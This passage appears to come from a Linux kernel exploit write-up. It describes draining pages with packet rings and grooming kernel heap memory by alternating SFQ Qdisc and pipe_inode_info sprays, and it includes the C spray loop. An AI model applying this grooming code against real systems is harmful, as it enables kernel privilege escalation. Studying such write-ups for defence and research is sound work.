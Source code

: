 **@step(2): Drain pages and create partial slabs**

We proceed to drain pages from the PCP lists and buddy freelists. To achieve this, we use a well-known technique that allows for the allocation a large number of pages for a given order by relying on packet rings (more details can be found in [this Project Zero article](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)). 

After pages have been drained, the next allocations will be served by splitting higher order pages, giving us access to relatively large portions of contiguous memory.

In this step we also create many partial slabs for `kmalloc-cg-96`, to mitigate noise when `alloc_pipe_inode()` is called, as after allocating `pipe_inode_info`, it also allocates a `pipe_buffer` structure.

**@step(3): Prepare the memory layout**

This part is the heart of the attack. For each iteration:
- If `i % SFQ_ALLOC_RATIO == 0`, we spray 128 SFQ Qdisc objects (or 8 `kmalloc-2k` slabs, equivalent to 8 order 3 pages).
- If `i % SFQ_ALLOC_RATIO != 0` we use `task_ctl()` to make the task `task_num` in the first task group spray 1344 `pipe_inode_info` (or 64 `kmalloc-cg-192` slabs, equivalent to 64 order 0 pages).

>By tweaking `SFQ_ALLOC_RATIO`, we can control how the 256KB blocks are filled. For example if `SFQ_ALLOC_RATIO = 2`, the exploit will attempt to fill one block with SFQ Qdiscs, followed by one block filld by `pipe_inode_info`. 
>
> `|   SFQ   |   PIPE   |   SFQ   |   PIPE   |   SFQ   |   PIPE   | ...`
>
>If `SFQ_ALLOC_RATIO = 3`, it will fill one block with SFQ Qdiscs, followed by two blocks filled with `pipe_inode_info` structures, and so on.
>
> `|   SFQ   |   PIPE   |   PIPE   |   SFQ   |   PIPE   |   PIPE   | ...`
>

```c
// ------------------------ [ main ] --------------------------

for (int i = 0; i < NUM_256KB_BLOCKS; i++) {
	if (i % SFQ_ALLOC_RATIO == 0) {
		// Attempt to fill 8 order 3 pages with 128 kmalloc-2k objects (sfq qdisc)
		for (int j = sfq_num; j < sfq_num + NUM_KMALLOC_2K_OBJECTS; j++) {
			snprintf(if_name, sizeof(if_name), "dummy-%d", j + NUM_PREALLOC_SFQ);
			tc(ADD_QDISC, "sfq", if_name, TC_H(1, 0), TC_H_ROOT, NULL, 0);

			// Allocate vuln object
			if (j == VULN_OBJ_ALLOCATION_IDX) {
				printf("vuln obj alloc idx %d\n", j);
				tc(ADD_QDISC, "sfq", "lo", TC_H(2, 0), TC_H(1, 0), NULL, 0);
			}
		}
		sfq_num += NUM_KMALLOC_2K_OBJECTS;
	} else {
		// Attempt to fill 8 order 3 pages with 0x540 kmalloc-192 objects (64 order 0 pages)
		task_ctl(tasks.group_1[task_num++], TASK_OPEN_FIFO);
	}
}

// -------------------- [ Tasks in group 1 ] ---------------------

// Spray pipe_inode_info
for (int i = 0; i < NUM_FIFO; i++)
	fifo_fd_A[i] = open_fifo(fifo_path[i]);
```
